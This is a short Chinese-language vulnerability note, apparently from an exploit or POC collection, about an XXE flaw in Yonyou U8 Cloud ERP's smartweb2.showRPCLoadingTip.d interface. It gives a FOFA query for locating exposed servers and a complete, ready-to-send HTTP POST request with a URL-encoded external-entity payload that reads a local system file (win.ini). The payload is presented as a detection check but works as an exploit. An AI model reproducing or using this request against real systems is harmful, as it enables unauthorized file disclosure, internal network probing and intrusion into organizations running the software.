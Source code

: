 **fofa**

app="用友-U8-Cloud"

**一、漏洞简述**

用友U8 cloud是用友推出的新一代云ERP，主要聚焦成长型、创新型企业，提供企业级云ERP整体解决方案，全面支持多组织业务协同、营销创新、智能财务、人力服务，构建产业链制造平台，融合用友云服务，实现企业互联网资源连接、共享、协同，赋能中国成长型企业高速发展、云化创新。其接口smartweb2.showRPCLoadingTip.d存在XXE漏洞，攻击者可通过该漏洞获取系统敏感信息或探测内网信息，甚至造成远程命令执行。

**二、漏洞检测poc**

```yaml

POST /hrss/dorado/smartweb2.showRPCLoadingTip.d?skin=default&__rpc=true&windows=1 HTTP/1.1
Host: x.x.x.x
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2227.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Connection: close
Content-Length: 631

__type=updateData&__viewInstanceId=nc.bs.hrss.rm.ResetPassword~nc.bs.hrss.rm.ResetPasswordViewModel&__xml=%3C%21DOCTYPE+z+%5B%3C%21ENTITY+test++SYSTEM+%22file%3A%2F%2F%2Fc%3A%2Fwindows%2Fwin.ini%22+%3E%5D%3E%3Crpc+transaction%3D%221%22+method%3D%22resetPwd%22%3E%3Cdef%3E%3Cdataset+type%3D%22Custom%22+id%3D%22dsResetPwd%22%3E%3Cf+name%3D%22user%22%3E%3C%2Ff%3E%3C%2Fdataset%3E%3C%2Fdef%3E%3Cdata%3E%3Crs+dataset%3D%22dsResetPwd%22%3E%3Cr+id%3D%221%22+state%3D%22insert%22%3E%3Cn%3E%3Cv%3E1%3C%2Fv%3E%3C%2Fn%3E%3C%2Fr%3E%3C%2Frs%3E%3C%2Fdata%3E%3Cvps%3E%3Cp+name%3D%22__profileKeys%22%3E%26test%3B%3C%2Fp%3E%3C%2Fvps%3E%3C%2Frpc%3E
```

